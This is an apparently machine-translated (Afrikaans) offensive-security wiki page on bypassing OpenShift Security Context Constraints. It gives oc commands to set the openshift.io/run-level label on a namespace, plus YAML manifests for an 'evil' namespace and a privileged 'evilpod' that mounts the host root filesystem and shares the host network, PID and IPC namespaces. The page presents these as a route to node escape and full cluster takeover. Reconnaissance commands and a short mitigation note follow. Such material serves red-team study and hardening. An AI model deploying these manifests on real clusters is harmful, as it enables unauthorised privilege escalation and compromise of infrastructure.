 # Openshift - SCC omseiling

**Die oorspronklike skrywer van hierdie bladsy is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Bevoorregte Namespaces

Standaard, SCC geld nie op die volgende projekte nie:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

As jy pods in een van daardie namespaces ontplooi, sal daar geen SCC afgedwing word nie, wat die ontplooiing van bevoorregte pods of die monteer van die gasheer lêerstelsel moontlik maak.

## Namespace Etiket

Daar is 'n manier om die SCC-toepassing op jou pod te deaktiveer volgens RedHat dokumentasie. Jy sal ten minste een van die volgende toestemmings moet hê:

- Skep 'n Namespace en Skep 'n Pod in hierdie Namespace
- Wysig 'n Namespace en Skep 'n Pod in hierdie Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spesifieke etiket `openshift.io/run-level` stel gebruikers in staat om SCC's vir toepassings te omseil. Volgens RedHat-dokumentasie, wanneer hierdie etiket gebruik word, word daar geen SCC's op alle pods binne daardie naamruimte afgedwing nie, wat effektief enige beperkings verwyder.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Voeg Etiket By

Om die etiket in jou naamruimte by te voeg:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Om 'n naamruimte met die etiket deur 'n YAML-lêer te skep:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Nou mag alle nuwe pods wat in die naamruimte geskep word, nie enige SCC hê nie.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In die afwesigheid van SCC is daar geen beperkings op jou pod-definisie nie. Dit beteken dat 'n kwaadwillige pod maklik geskep kan word om na die gasheerstelsel te ontsnap.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Nou het dit makliker geword om voorregte te verhoog om toegang tot die gasheerstelsel te verkry en gevolglik die hele kluster oor te neem, wat 'cluster-admin' voorregte verkry. Soek na die **Node-Post Exploitation** deel op die volgende bladsy:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Pasgemaakte etikette

Boonop, gebaseer op die teikenopstelling, kan sommige pasgemaakte etikette / annotasies op dieselfde manier as die vorige aanvalscenario gebruik word. Selfs al is dit nie gemaak vir nie, kan etikette gebruik word om toestemmings te gee, 'n spesifieke hulpbron te beperk of nie.

Probeer om na pasgemaakte etikette te soek as jy sommige hulpbronne kan lees. Hier is 'n lys van interessante hulpbronne:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lys al die bevoorregte name ruimtes
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gevorderde uitbuiting

In OpenShift, soos vroeër gedemonstreer, kan dit om 'n pod in 'n naamruimte met die `openshift.io/run-level`-etiket te ontplooi, lei tot 'n eenvoudige oorneem van die kluster. Vanuit 'n klusterinstellingsperspektief **kan hierdie funksionaliteit nie gedeaktiveer word** nie, aangesien dit inherent is aan OpenShift se ontwerp.

Daarom kan mitigasie-maatreëls soos **Open Policy Agent GateKeeper** voorkom dat gebruikers hierdie etiket stel.

Om GateKeeper se reëls te omseil en hierdie etiket te stel om 'n kluster oorneem uit te voer, **sal aanvallers alternatiewe metodes moet identifiseer.**

## Verwysings

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
